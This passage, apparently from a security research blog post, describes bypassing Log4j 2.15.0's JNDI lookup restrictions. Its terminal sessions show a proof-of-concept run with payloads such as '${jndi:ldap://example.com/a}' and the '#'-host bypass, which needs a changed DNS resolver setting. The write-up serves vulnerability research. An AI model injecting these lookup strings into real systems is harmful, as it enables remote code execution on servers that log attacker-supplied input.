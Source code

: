 With these changes, we decided to test again with a slightly modified payload:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp log4j-core-2.15.0.jar:log4j-api-2.15.0.jar:. POC '${jndi:ldap://example.com/a'}
Using payload: ${jndi:ldap://example.com/a}
2021-12-27 16:27:49,981 main WARN Attempt to access ldap server not in allowed list
16:27:49.976 - ${jndi:ldap://example.com/a} - ${jndi:ldap://example.com/a}
```

We then ran it again to verify that we can use the other enabled protocols as well:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp log4j-core-2.15.0.jar:log4j-api-2.15.0.jar:. POC '${java:version}'
Using payload: ${java:version}
17:31:52.159 - Java version 1.8.0_171 - ${java:version}
```

At this point we knew that we are reaching the lookup function and it just became a matter of bypassing the newly introduced checks.

## Final Challenge

We reached a big problem as the [bypass](https://twitter.com/marcioalm/status/1471740771581652995) we saw on Twitter `${jndi:ldap://127.0.0.1#example.com/a}` was not working for us. The application was crashing, complaining that it cannot resolve the host due to # in the domain. To go around this, we had to use a different DNS resolver which was not so picky about the special characters.

Here we have a PoC of this:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp log4j-core-2.15.0.jar:log4j-api-2.15.0.jar:. -Dsun.net.spi.nameservice.provider.1=dns,sun POC '${jndi:ldap://127.0.0.1#example.com/a}'
Using payload: ${jndi:ldap://127.0.0.1#example.com/a}
2021-12-24 02:45:36,290 main WARN Error looking up JNDI resource [ldap://127.0.0.1#example.com/a]. javax.naming.CommunicationException: 127.0.0.1#example.com:389 [Root exception is java.net.UnknownHostException: 127.0.0.1#example.com]
[...snip...]
```

![](/assets/images/posts/image-21.png)

With this, we were able to reproduce the attack and once again be in a position to achieve RCE.

## Conclusion
